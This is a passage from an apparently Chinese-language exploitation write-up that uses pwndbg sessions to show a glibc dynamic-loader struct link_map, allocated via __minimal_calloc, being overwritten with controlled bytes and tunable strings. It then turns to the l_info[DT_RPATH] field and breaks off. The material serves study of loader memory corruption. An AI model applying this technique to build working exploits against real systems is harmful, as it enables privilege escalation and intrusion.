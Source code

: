 如此，当再次申请内存，调用`__minimal_calloc`

```plain
pwndbg> b *(_dl_new_object+109)
pwndbg> c
   0x7f4908e899fd <_dl_new_object+109>     call   qword ptr [rip + 0x2c06d]     <__minimal_calloc>
pwndbg> ni
*RAX  0x7f4908e74c40 ?— 0x0
```

查看结构

```plain
pwndbg> b *(_dl_new_object+115)
pwndbg> c
   0x7ffaa8c249fd <_dl_new_object+109>: call   QWORD PTR [rip+0x2c06d]        # 0x7ffaa8c50a70 <__rtld_calloc> # __minimal_calloc
=> 0x7ffaa8c24a03 <_dl_new_object+115>: mov    r14,rax
pwndbg> p *((struct link_map *) $rax)
$1 = {
  l_addr = 4774451407232463713,
  l_name = 0x4242424242424242 <error: Cannot access memory at address 0x4242424242424242>,
  l_ld = 0x4242424242424242,
  l_next = 0x4242424242424242,
  l_prev = 0x4242424242424242,
  l_real = 0x4242424242424242,
  l_ns = 4774451407313060418,
  l_libname = 0x4242424242424242,
  l_info = {0x4242424242424242 <repeats 17 times>, 0x696c673a42424242, 0x6f6c6c616d2e6362, 0x74736166786d2e63, 0x3d, 0x0 <repeats 24 times>, 0x2e6362696c673a00, 0x6d2e636f6c6c616d, 0x3d7473616678, 0x0 <repeats 29 times>},
```

成功覆盖`struct link_map`

### `link_map->l_info[DT_RPATH]`成员变量

定位到

`elf/dl-load.c`文件

`_dl_init_paths`函数

[![](assets/1703485170-cc5ae19f693552010292c0bf722bd67b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231224141520-d0a2520c-a223-1.png)
